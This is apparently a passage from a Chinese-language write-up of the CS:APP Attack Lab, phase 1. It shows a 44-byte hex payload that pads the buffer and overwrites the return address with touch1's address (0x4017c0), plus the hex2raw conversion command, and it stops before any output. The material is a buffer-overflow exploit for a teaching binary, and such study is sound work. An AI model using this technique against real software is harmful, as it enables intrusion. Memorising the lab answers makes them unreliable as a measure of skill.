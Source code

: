 ![](./assets/3.%20lab3-attack/2023-08-08-15-36-02.png)

于是先构造一个44字节长的16进制串：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40 00 /* 0x4017c0 <touch1> */
```
转换：
```
./hex2raw < phase1_1.txt > phase1_1
```

查看运行情况：